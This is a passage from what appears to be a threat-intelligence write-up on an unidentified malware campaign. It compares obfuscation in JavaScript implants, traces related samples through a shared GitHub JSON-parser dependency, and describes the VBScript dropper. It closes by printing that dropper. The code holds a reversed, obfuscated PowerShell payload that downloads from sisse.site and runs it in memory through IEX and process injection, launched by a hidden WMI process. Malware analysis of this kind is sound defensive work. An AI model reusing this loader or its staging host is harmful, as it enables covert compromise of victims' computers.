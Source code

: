 <h6>Now if we compare with the original js script found by the malwarehunterteam, we can see that the obfuscation is different and use the elements of an array for does the obfuscation on one layer. A different version is used on this sample.</h6>

<center><img src ="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional Analysis/Unknown/2020-05-12/Pictures/comp_code.png"></img></center>

<h2>Hunting<a name="Hunting"></h2>
<h6>In seeing the common elements, we can note that both use the common external code in downloading from github for getting the JSON parser.The domains are recent on links on anyrun and are more oldest on Virustotal (VT). By this way, the interesting method is to have the hash of the code of the external script and see the relation on the malware or legit software that call on the sandbox of VT.</h6>

<h6>We see that the script wall called on multiple JS files and PE files (and some file type errors), one file is excluding and use only the repository for have a JSON parser of the results the net implant to the C2. This also more old than the others (2014).The numbers of the samples using in downloading is low and will show improvement over time.</h6>

<center><img src ="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional Analysis/Unknown/2020-05-12/Pictures/hunting.png"></img></center>

<h6>A detailed list of samples using this repository can be viewed <a href="">here</a></h6>

<h6>We can note that the code has the same structure and method for collecting the informations, the orders to execute. Here we can see that the commands and the same typing in the URL of the C2 are the same. By looking at all the samples, the code is reduced only to improve its obfuscation. The most older sample have just as obfuscation the fact to use the elements on an array, the rest of the code is clear.</h6>

<h6>The initial vector founded is Visual Basic script probably by archive executable (SFX). This replaces the characters, reverse the content and convert to ascii. This script uses reflective method for download and executes the content in memory. This spawned by WMI instance for create the process.</h6>

```vb
f="g|)DHJ6TSHGLKHD75SBHDF$(gnirtSteG.IICSA::]gnidocnE.txeT.metsyS[;nor$ g las;)'I','D'(ecalper.'XED'=nor$;)#_#^4,20#_#^,63 [...] #_#^#_#^,00#_#^(@=DHJ6TSHGLKHD75SBHDF$"
f=replace(f,"#_#^","1")

'$FDHBS57DHKLGHST6JHD=@(100,111,32,123,36,112,105,110,103 [...] 100,46,101,120,101,39,44,36,102,41);

'$ron='DEX'.replace('D','I');
'sal g $ron;
'[System.Text.Encoding]::ASCII.GetString($FDHBS57DHKLGHST6JHD)|g

'do {$ping = test-connection -comp google.com -count 1 -Quiet} until ($ping);
'[void] [System.Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');
'$fj=[Microsoft.VisualBasic.Interaction]::CallByname((New-Object Net.WebClient),'DownloadString',[Microsoft.VisualBasic.CallType]::Method,'http://sisse.site/l/r.jpg')|IEX;
'[Byte[]]$f=[Microsoft.VisualBasic.Interaction]::CallByname((New-Object Net.WebClient),'DownloadString',[Microsoft.VisualBasic.CallType]::Method,'http://sisse.site/l/1.jpg').replace('@$&~!','0x')|IEX;
'[jokeme]::Booo('notepad.exe',$f)

exec("Powershell"+space(1)+StrReverse(f))
set fso0 = CreateObject("Scripting.FileSystemObject")
CurrentDirectory = fso0.GetParentFolderName(WScript.ScriptFullName)
sname= wsh.scriptname
sub exec(Atc)
strCommand = Atc
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
objConfig.ShowWindow = 0
Set objProcess = objWMIService.Get("Win32_Process")
intReturn = objProcess.Create(strCommand, Null, objConfig, intProcessID)
```